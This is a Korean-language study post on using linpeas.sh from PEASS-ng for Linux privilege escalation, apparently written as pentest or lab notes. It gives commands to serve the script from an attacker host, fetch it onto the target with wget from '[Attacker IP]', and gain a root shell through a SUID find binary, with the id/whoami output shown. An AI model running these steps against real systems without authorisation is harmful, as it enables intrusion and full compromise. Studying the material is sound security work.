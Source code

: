 ```yaml
---
layout: post
title: "PEASS-ng 공부"
date: 2025-09-04 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

PEASS-ng(Privilege Escalation Awesome Scripts SUITE new generation)는 권한 상승을 위한 정보를 자동으로 수집해 주는 스크립트 모음이다. 이 중 `linpeas.sh`는 리눅스 환경에서 실행되며 시스템의 설정 오류 · 커널 버전 · SUID 파일 · cron 작업 등 권한 상승에 이용될 수 있는 거의 모든 항목을 검사하고 결과를 색상으로 구분하여 보여준다. 수동으로 정보를 수집하는 과정을 자동화하여 분석 시간을 크게 단축시킨다.

---

### 2. 스크립트 실행 방법

`linpeas.sh` 스크립트를 공격 대상 서버로 옮긴 후 실행 권한을 부여하고 실행하는 과정이 필요하다.

#### **1. 스크립트 전송**
공격자 PC에서 웹 서버를 열고 대상 서버에서 `wget` 이나 `curl` 명령어로 스크립트를 다운로드하는 것이 일반적이다.

*   **공격자 PC:**
    ```bash
    # linpeas.sh 파일이 있는 디렉터리에서 실행
    python3 -m http.server 8000
    ```
*   **대상 서버:**
    ```bash
    # 쓰기 가능한 디렉터리(예: /tmp)로 이동
    cd /tmp
    wget http://[Attacker IP]:8000/linpeas.sh
    ```

#### **2. 스크립트 실행**
다운로드한 스크립트에 실행 권한을 부여하고 실행한다.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

### 3. 결과 분석

`linpeas.sh`는 실행 결과에서 잠재적인 취약점 항목을 색상으로 강조하여 보여준다.

*   **빨간색 + 노란색 배경:** 95% 확률로 권한 상승에 이용 가능한 매우 중요한 항목.
*   **빨간색:** 흥미롭거나 주의 깊게 봐야 할 항목.
*   **노란색:** 추가적인 정보가 될 수 있는 항목.

   ![Linpeas.sh](/assets/images/Lin_1.png)

결과 보고서를 통해 SUID가 설정된 바이너리, 시스템 권한으로 실행되는 cron 작업 `sudo -l` 로 확인한 권한 등 권한 상승에 결정적인 단서가 될 수 있는 정보들을 한눈에 파악할 수 있다. 예를 들어 `(i) find results` 섹션에서 [GTFOBins](https://gtfobins.github.io/)에 등재된 SUID 파일을 발견했다면 이를 직접적인 공격 경로로 활용할 수 있다.

### 4. 사용 예시: SUID 바이너리를 이용한 권한 상승

이 예시는 `linpeas.sh`가 찾아낸 `SUID` 설정 파일을 이용하여 `root` 권한을 획득하는 과정을 보여준다. '정보 수집 -> 분석 -> 공격 실행'의 전체 흐름을 따른다.

#### **1. 정보 수집 (linpeas.sh)**
**`./linpeas.sh`** 를 실행하여 시스템을 스캔한다. 스캔 결과 중 `SUID/SGID Binaries` 섹션에서 권한 상승에 악용될 수 있는 파일 목록을 확인한다.

아래 예시에서는 **`/usr/bin/find`** 파일이 SUID 비트가 설정되어 있고 **GTFOBins**에 등재되어 있어 권한 상승에 이용 가능하다고 **빨간색+노란색 배경**으로 강조되어 있다.

  ![LinpeasSuid](/assets/images/Lin_2.png)

#### **2. 분석 (GTFOBins)**
**GTFOBins**는 유닉스 바이너리를 이용한 권한 상승 및 다양한 기능 우회 방법을 모아놓은 리소스이다. `linpeas.sh`가 알려준 **`find`** 바이너리를 GTFOBins 사이트에서 검색한다.

GTFOBins는 `find`의 SUID를 이용하여 쉘을 실행하는 아래의 명령어를 제공한다.
```bash
find . -exec /bin/sh -p \; -quit
```

#### **3. 공격 실행 (권한 상승)**
획득한 일반 사용자 쉘에서 GTFOBins에서 찾은 명령어를 그대로 실행한다.

```bash
find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# whoami
root
```
*   명령어를 실행하면 프롬프트는 그대로지만 **`-p`** 옵션으로 인해 유효 사용자 ID(`euid`)가 `root`로 설정된 쉘이 실행된다.
*   **`id`** 명령어를 실행하면 `euid=0(root)`로 표시되어 권한이 상승했음을 확인할 수 있다.
*   **`whoami`** 명령어 역시 `root`를 반환한다.

이 과정을 통해 `linpeas.sh`로 수집한 정보를 바탕으로 분석하여 실제 `root` 권한을 획득하는 데 성공했다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **linpeas.sh 실행 결과 화면 스크린샷 제작**

1.  공격 대상 서버의 `/tmp` 디렉터리에 `linpeas.sh` 스크립트를 업로드하고 실행합니다.
2.  스크립트가 실행되면서 수많은 정보가 터미널에 출력됩니다. 스크롤을 올려 스크립트 시작 부분의 `LEGEND` (범례)가 보이도록 합니다.
3.  `LEGEND`와 함께, 아래 결과 중 **빨간색+노란색 배경**으로 표시된 중요 취약점(예: `Writable /etc/passwd file`) 또는 **빨간색**으로 표시된 SUID 파일 목록 등이 잘 보이도록 화면을 구성합니다.
4.  터미널 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  `LEGEND` 부분에 사각형 박스를 하나 그리고, 실제 결과에서 빨간색 또는 노란색으로 강조된 주요 취약점 항목에 또 다른 사각형 박스를 그려 하이라이트합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **find SUID 발견 및 권한 상승 과정 이미지 제작**

이 이미지는 `linpeas.sh`의 발견(원인)과 실제 권한 상승(결과)을 연결하여 보여준다.

1.  **`linpeas.sh` 결과 캡처:**
    *   `linpeas.sh`를 실행한 결과 중, `/usr/bin/find`가 SUID로 강조된 부분(빨간색+노란색 배경)이 잘 보이도록 화면을 구성하여 스크린샷을 찍어 **`linpeas_find_discovery.png`**로 저장한다.
2.  **권한 상승 터미널 캡처:**
    *   일반 사용자 쉘에서 `find . -exec /bin/sh -p \; -quit` 명령어를 입력하고, 이어서 `id`와 `whoami` 명령어를 실행한 결과(`euid=0(root)`, `root`)까지 모두 보이는 터미널 화면을 스크린샷으로 찍어 **`privesc_find_result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `linpeas_find_discovery.png`(왼쪽)와 `privesc_find_result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `/usr/bin/find`가 강조된 라인 전체에 추가로 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 실행한 `find` 명령어와, 그 결과로 나타난 `euid=0(root)` 및 `root` 출력 부분에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 `linpeas.sh`의 발견이 실제 권한 상승으로 이어졌음을 명확히 보여준다.
    *   수정된 이미지를 게시글에 삽입한다.